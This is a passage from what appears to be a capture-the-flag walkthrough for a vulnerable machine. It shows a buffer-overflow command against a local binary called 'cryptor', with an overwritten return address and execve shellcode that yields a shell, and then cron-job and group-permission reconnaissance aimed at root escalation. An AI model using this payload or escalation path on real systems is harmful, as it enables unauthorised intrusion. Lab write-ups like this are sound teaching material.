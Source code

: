 And we are given our reynard shell!

```
[*] ./cryptor $(python -c 'print "A" * 100 + "\x80\xa0\x04\x08" + "C" * 12') $(python -c 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x6a\x0b\x58\x89\xe3\x31\xc9\x99\xcd\x80"')
[*] Shell recevied: reynard
[*] Switching to interactive mode
uid=1000(anansi) gid=1003(webdev) euid=1002(reynard) groups=1002(reynard)
```

## Step 4

A little more recon shows the following cron job:

```
$ cat /etc/cron.d/*
* * * * * root cd /opt/.messenger; for i in *.msg; do /usr/local/bin/msg_admin 1 $i; rm -f $i; done
```

Looking at the privileges of `/opt/.messenger` we see the following:

```
$ ls -la /opt
total 12
drwxr-xr-x  3 root root 4096 May 19 23:51 .
drwxr-xr-x 21 root root 4096 Jun 17 22:05 ..
drwxrwx---  3 root dev  4096 Jun 10 22:32 .messenger
```

We see a command that is executed by root, pulling files from the `/opt/.messenger` directory. We need a user with `dev` group permissions in order for this to happen.

Examining the tail of `/etc/passwd`, we see `puck`. Looking at his `id`:

```
$ id puck
uid=1001(puck) gid=1001(puck) groups=1001(puck),1004(dev)
```

He does have `dev` privileges allowing him to access `/opt/.messenger`. Let's take a look at what `puck` has on the box.

```
$ cd /home/puck
$ ls -la
total 12
drwxrwx--- 2 reynard dev     4096 Jun 17 22:11 .
drwxr-xr-x 3 root    root    4096 May 19 23:35 ..
-rw-r--r-- 1 reynard reynard   21 Jun 17 22:11 key.txt
$ cat key.txt
9H37B81HZYY8912HBU93
```

Are there other keys on the box?

```
$ find / -name key* 2>/dev/null
/mnt/usb/key.txt
```
